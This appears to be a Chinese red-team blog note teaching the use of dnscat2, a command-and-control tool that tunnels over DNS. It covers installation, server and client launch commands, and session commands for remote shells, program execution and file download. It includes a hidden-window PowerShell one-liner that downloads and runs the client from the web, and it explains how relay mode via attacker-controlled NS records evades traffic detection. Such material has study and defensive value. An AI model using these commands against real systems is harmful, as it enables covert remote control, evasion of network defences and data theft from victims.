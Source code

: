 ```yaml
---
title: 【内网学习笔记】dnscat2 使用
date: 2021-06-08 15:02:24
id: 210608-150224
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-08_14-35-33.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


# 0x00 介绍

dnscat2 是一款 C2 工具，与常规 C2 工具不同的是它利用了 DNS 协议来创建加密的 C2 通道。

dnacat2 的客户端由 C 语言编写，服务端由 Ruby 语言编写，在攻击主机上开启服务端后，客户端放到目标主机上执行相关命令，攻击主机就能够收到来自客户端的会话了。

dnscat2 有两种使用模式，一是直连模式，二是中继模式，区别如下：

直连模式：客户端直接向指定 IP 地址的 DNS 服务器发起 DNS 解析请求

中继模式：像平时上网一样，DNS 先经过互联网的解析，最终指向我们的恶意 DNS 服务器，与直连模式相比速度较慢但是更安全。

在安全策略做的比较严格的内网中，如果发现只允许白名单流量出站，而且内网中还有诸多安全设备，同时在传统的 C2 通信无法建立的情况下，RT 就可以尝试使用 DNS 协议建立 C2 通信。

# 0x01 安装

## 1、服务端

这里以 Ubuntu 为例

```
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo gem install bundler
bundle install
```

如果运行 `sudo gem install bundler` 提示 `Command 'gem' not found`，则需要先安装 ruby 

```
sudo apt-get install ruby
```

如果运行 `bundle install` 提示 `Gem::Ext::BuildError: ERROR: Failed to build gem native extension.`，则需要先安装 ruby-dev

```
sudo apt-get install ruby-dev
```

## 2、客户端

dnscat2 客户端在使用前需要进行编译才能使用，在 Windows 中可以使用 VS 进行编译或者直接使用 PowerShell 的版本，Linux 中可以使用 `make install` 进行编译。

Linux 下可以通过以下方法进行编译

```
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client/
make
```

Windows 可以直接下载已经编译好的版本

exe 版（解压密码：password）：[https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip](https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip)

PowerShell 版：[https://github.com/lukebaggett/dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell)

如果使用 PowerShell 版，可以直接使用下面的命令导入，在实际情况中，也更推荐使用 PowerShell 版的，毕竟隐蔽性要更好些。

```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1')
```

或者下载 ps1 文件后，使用以下命令导入

```
Import-Module .\dnscat2.ps1
```

# 0x02 使用

## 1、直连模式

**启动服务端**，这里服务端 IP 为 172.16.214.50

```
cd /dnscat2/server
sudo ruby ./dnscat2.rb -s 553 -c teamssix --no-cache
```

```
-s 指定 dns 服务端口
-c 指定连接密码
--no-cache 禁止缓存，添加该项为了使和 PowerShell 版本的 dnscat2 兼容
```

**启动客户端**，这里以 Windows 下的 exe 版为例

```
dnscat --dns server=172.16.214.50,port=553 --secret=teamssix
```

连接成功后，会提示 `Session established!`

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-07_16-44-12.png)

dnscat2 的一些命令

```
sessions 或 windows 						查看当前会话
session -i 1 或 window -i 1 		进入 ID 为 1 的会话
shell 					建立交互式会话
exec						远程打开程序
download			  下载文件
help						查看支持的命令
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/WX20210607-165615@2x.png)

抓下包，看看流量是什么样子的

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-07_17-01-52.png)

不难看出，流量中有很多 dnscat 的字样，这样一来，虽然使用了 dns 协议，但是隐蔽性还是差了不少，接下来看看中继模式。

## 2、中继模式

在中继模式下，需要自己有一个域名，并添加两条域名解析记录。

首先创建一条 A 记录指向自己的公网 VPS 地址，之后创建一条 ns 记录指向 A 记录的子域名，示例如下：

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-07_17-20-20.png)

如果想要判断自己的解析记录是否设置成功，可以通过以下方法进行判断。

A 记录：直接通过 nslookup 进行判断，如果解析出了 IP 说明该项配置正确。

```
nslookup ns1.teamssix.com
```

ns 记录：在公网 VPS 上开启抓包，再`nslookup dc.teamssix.com`，如果在 VPS 上看到对应的流量记录，说明该项配置正确。

```
sudo tcpdump -n -i eth0 udp dst port 53
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-08_13-46-54.png)

**开启服务端**

```
sudo ruby dnscat2.rb dc.teamssix.com -c teamssix --no-cache -e open
```

```
-e 指定安全级别，open 表示服务端允许客户端不进行加密
```

如果提示`Address already in use - bind(2) for "0.0.0.0" port 53`，可以关闭`systemd-resolved`

```
sudo systemctl stop systemd-resolved
```

**开启客户端**，这里以 Windows 下的 PowerShell 版为例

```
start-Dnscat2 -Domain dc.teamssix.com -PreSharedSecret teamssix -DNSServer vps_ip
```

也可以把导入的命令和开启客户端的命令放在一起

```
powershell.exe -nop -w hidden -c {IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');start-Dnscat2 -Domain dc.teamssix.com -PreSharedSecret teamssix -DNSServer vps_ip}
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-08_14-35-33.png)

再来抓下包，看看流量是什么样的

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-08_14-45-40.png)

可以看出，流量中已经没有了 dnscat 的字样，这也是为什么在介绍部分说中继模式比直连模式更安全的原因。

> 参考文章：
>
> [https://xz.aliyun.com/t/2214](https://xz.aliyun.com/t/2214)
>
> [https://blog.csdn.net/localhost01/article/details/86591685](https://blog.csdn.net/localhost01/article/details/86591685)
>
> [https://blog.csdn.net/qq_36119192/article/details/104429983](https://blog.csdn.net/qq_36119192/article/details/104429983)
> 
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
